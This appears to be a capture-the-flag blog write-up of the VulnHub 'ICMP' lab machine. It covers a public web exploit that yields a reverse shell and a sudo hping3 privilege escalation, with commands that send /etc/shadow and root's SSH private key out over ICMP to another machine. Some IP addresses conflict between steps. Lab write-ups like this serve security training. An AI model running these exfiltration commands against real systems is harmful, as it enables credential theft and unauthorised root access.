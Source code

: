 ```yaml
---
title: ICMP
categories: [Proving Grounds Play]
tags: [Public Exploit, hping3, PrivEsc]
image:
  path: https://rotnemzero.com/wp-content/uploads/2023/07/featured-3.png
  alt:  ICMP Machine 🖥️
---
```



## **Description ⤵️**

>
💡 [ICMP](https://www.vulnhub.com/entry/icmp-1,633/) ⤵️
<br>
Easy box, monitor resources
<br>
This works better with VirtualBox rather than VMware
{: .prompt-info }

### Let’s find the IP Address first >>

![171-1.png](/Vulnhub-Files/img/ICMP/171-1.png)

```bash
IP : 10.0.2.24
```
{: .nolineno}

## Port Scan Results ➡️

![171-2.png](/Vulnhub-Files/img/ICMP/171-2.png)

```bash
OPEN PORTS >
22   SSH
80   HTTP
```
{: .nolineno}

---

## Web Enumeration ⤵️

![171-3.png](/Vulnhub-Files/img/ICMP/171-3.png)

Lets check an exploit for this Monitoring System →

![171-4.png](/Vulnhub-Files/img/ICMP/171-4.png)

Now I executed the shell →

![171-5.png](/Vulnhub-Files/img/ICMP/171-5.png)

Lets load the reverse shell url →

URL → [http://10.0.2.24/mon/assets/data/usrimg/she_ll.php](http://10.0.2.24/mon/assets/data/usrimg/she_ll.php)

![171-6.png](/Vulnhub-Files/img/ICMP/171-6.png)

Response →

![171-7.png](/Vulnhub-Files/img/ICMP/171-7.png)

---

## SHELL ➡️

![171-8.png](/Vulnhub-Files/img/ICMP/171-8.png)

```bash
local.txt → c9db6c88939a2ae091c431a45fb1e59c
```
{: .nolineno}

![171-9.png](/Vulnhub-Files/img/ICMP/171-9.png)

![171-10.png](/Vulnhub-Files/img/ICMP/171-10.png)

![171-11.png](/Vulnhub-Files/img/ICMP/171-11.png)

So the crypt file is basically inside the devel file →

![171-12.png](/Vulnhub-Files/img/ICMP/171-12.png)

Now I got in with this password → `BUHNIJMONIBUVCYTTYVGBUHJNI`

![171-13.png](/Vulnhub-Files/img/ICMP/171-13.png)

Lets see how fox can leads me to root !

![171-14.png](/Vulnhub-Files/img/ICMP/171-14.png)

Lets use this ⤵️

![Untitled](/Vulnhub-Files/img/ICMP/Untitled.png)

It allowed a command to run as root. Since we must use ICMP mode, we cannot spawn a shell. However, we can transfer files to a different machine. We could try sending the shadow file or try to send an SSH private key.

Reference: [https://iphelix.medium.com/hping-tips-and-tricks-85698751179f](https://iphelix.medium.com/hping-tips-and-tricks-85698751179f)

For this, we require to set up hping3 in listen mode in the receiver machine, whereas from the target machine, we have to send the file.

IP of the receiver machine: 10.0.2.15

IP of the target machine: 10.0.2.60

On the receiver machine, we have to do the following.

```
{: .nolineno}
sudo hping3 -1 10.0.2.24 -9 signature -I eth0 --safe
```
{: .nolineno}

On the target machine, we should do as follows to get the shadow file.

```
{: .nolineno}
sudo /usr/sbin/hping3 --icmp 10.0.2.27 -e signature -E /etc/shadow -d 2000 -c 1
```
{: .nolineno}

This gave me output in my receiving machine. In the command above, -c 1 is the number of times the ping operation is performed. Since we have data size of 2000, we just need a single ping. However, you can completely change the value or exclude it to manually exit later.

![https://nepcodex.com/wp-content/uploads/2021/07/image-133-700x210.png](https://nepcodex.com/wp-content/uploads/2021/07/image-133-700x210.png)

I tried bruteforcing the password but had no luck. Next, I tried to get the private key using the same method.

```
{: .nolineno}
sudo /usr/sbin/hping3 --icmp 10.0.2.27 -e signature -E /root/.ssh/id_rsa -d 2000
```
{: .nolineno}

I got the response like the following. Thus, I decided to do the same in the two different SSH instances of the target machine.

![https://nepcodex.com/wp-content/uploads/2021/07/image-134.png](https://nepcodex.com/wp-content/uploads/2021/07/image-134.png)

On the target machines,

```
{: .nolineno}
# SSH instance 1
sudo hping3 --icmp 127.0.0.1 --listen signature --safe
```
{: .nolineno}

```
{: .nolineno}
# SSH instance 2
sudo hping3 --icmp 127.0.0.1 --sign signature --file /root/.ssh/id_rsa -d 4000 -c 2
```
{: .nolineno}

![https://nepcodex.com/wp-content/uploads/2021/07/image-135.png](https://nepcodex.com/wp-content/uploads/2021/07/image-135.png)

Finally, I got the proper response. Next, I copied it to a file on my local machine.

```
{: .nolineno}
vi id_rsa # Copy the key
chmod 600 id_rsa # This will restrict the private key permissions
```
{: .nolineno}

Lastly, I could log in to the system.

```
{: .nolineno}
ssh root@10.0.2.24 -i id_rsa
```
{: .nolineno}

![https://nepcodex.com/wp-content/uploads/2021/07/image-136.png](https://nepcodex.com/wp-content/uploads/2021/07/image-136.png)

---

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }